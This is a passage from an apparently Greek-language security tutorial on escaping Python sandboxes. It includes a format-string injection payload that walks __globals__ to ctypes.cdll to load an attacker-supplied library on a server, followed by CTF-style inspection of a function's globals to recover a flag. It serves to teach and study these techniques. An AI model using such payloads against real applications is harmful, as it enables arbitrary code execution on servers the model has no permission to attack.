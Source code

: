 ```python
def __getitem__(self, name):
return getattr(self, name)

cdll = LibraryLoader(CDLL)
pydll = LibraryLoader(PyDLL)
```
Αυτή η συσκευή επιτρέπει να **φορτώσετε μια βιβλιοθήκη από τον δίσκο**. Επομένως, είναι απαραίτητο να **γράψετε ή να ανεβάσετε τη βιβλιοθήκη για να φορτωθεί** σωστά κατασκευασμένη στον επιτιθέμενο διακομιστή.
```python
'{i.find.__globals__[so].mapperlib.sys.modules[ctypes].cdll[/path/to/file]}'
```
Η πρόκληση στην πραγματικότητα εκμεταλλεύεται μια άλλη ευπάθεια στον διακομιστή που επιτρέπει τη δημιουργία αυθαίρετων αρχείων στον δίσκο των διακομιστών.

## Ανάλυση Αντικειμένων Python

{% hint style="info" %}
Αν θέλετε να **μάθετε** για τον **bytecode της python** σε βάθος, διαβάστε αυτή την **καταπληκτική** ανάρτηση για το θέμα: [**https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d**](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d)
{% endhint %}

Σε ορισμένα CTFs μπορεί να σας παρέχεται το όνομα μιας **προσαρμοσμένης συνάρτησης όπου βρίσκεται η σημαία** και πρέπει να δείτε τα **εσωτερικά** της **συνάρτησης** για να την εξαγάγετε.

Αυτή είναι η συνάρτηση προς επιθεώρηση:
```python
def get_flag(some_input):
var1=1
var2="secretcode"
var3=["some","array"]
if some_input == var2:
return "THIS-IS-THE-FALG!"
else:
return "Nope"
```
#### dir
```python
dir() #General dir() to find what we have loaded
['__builtins__', '__doc__', '__name__', '__package__', 'b', 'bytecode', 'code', 'codeobj', 'consts', 'dis', 'filename', 'foo', 'get_flag', 'names', 'read', 'x']
dir(get_flag) #Get info tof the function
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
```
#### globals

`__globals__` και `func_globals`(Ίδιο) Αποκτά το παγκόσμιο περιβάλλον. Στο παράδειγμα μπορείτε να δείτε μερικά εισαγόμενα modules, μερικές παγκόσμιες μεταβλητές και το περιεχόμενό τους που δηλώνονται:
```python
get_flag.func_globals
get_flag.__globals__
{'b': 3, 'names': ('open', 'read'), '__builtins__': <module '__builtin__' (built-in)>, 'codeobj': <code object <module> at 0x7f58c00b26b0, file "noname", line 1>, 'get_flag': <function get_flag at 0x7f58c00b27d0>, 'filename': './poc.py', '__package__': None, 'read': <function read at 0x7f58c00b23d0>, 'code': <type 'code'>, 'bytecode': 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S', 'consts': (None, './poc.py', 'r'), 'x': <unbound method catch_warnings.__init__>, '__name__': '__main__', 'foo': <function foo at 0x7f58c020eb50>, '__doc__': None, 'dis': <module 'dis' from '/usr/lib/python2.7/dis.pyc'>}

```